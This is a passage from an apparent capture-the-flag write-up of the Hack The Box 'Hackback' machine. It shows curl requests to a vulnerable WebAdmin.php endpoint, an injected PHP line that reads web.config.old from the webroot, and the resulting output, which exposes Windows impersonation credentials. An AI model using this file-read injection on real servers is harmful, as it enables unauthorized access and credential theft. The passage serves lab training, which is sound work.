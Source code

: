```bash
```
After doing a bit of traversing, I located a `web.config.old` file located in `/inetpub/wwwroot/new_phish/admin`.

```
➜  HACKBACK curl -X GET 'http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=show&site=hackthebox&password=12345678&session=972d14b51c047ebff05b7eb1d1acff3d5989bac8407b45e28013a3584834270b'
[15 April 2020, 08:40:57 PM] 10.10.14.37 - Username: Array
(
    [0] => .
    [1] => ..
    [2] => 2bb6916122f1da34dcd916421e531578
    [3] => App_Data
    [4] => aspnet_client
    [5] => css
    [6] => img
    [7] => index.php
    [8] => js
    [9] => logs
    [10] => web.config
    [11] => web.config.old
)
, Password: // farbs was here again!
```
The file appeared to contain some credentials.

```bash
➜  HACKBACK curl -X GET 'http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=show&site=hackthebox&password=12345678&session=972d14b51c047ebff05b7eb1d1acff3d5989bac8407b45e28013a3584834270b'
[15 April 2020, 08:43:31 PM] 10.10.14.37 - Username: <?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <authentication mode="Windows">
        <identity impersonate="true"                 
            userName="simple" 
            password="ZonoProprioZomaro:-("/>
     </authentication>
        <directoryBrowse enabled="false" showFlags="None" />
    </system.webServer>
</configuration>
, Password: // one more comment for fun!
```

I was able to obtain the file by submitting the following PHP:

```php
<?php echo(file_get_contents('/inetpub/wwwroot/new_phish/admin/web.config.old')); ?>
```
I wasn't able to use the credentials yet, but I had a feeling they might come in handy eventually.

### Tunneling with reGeorg
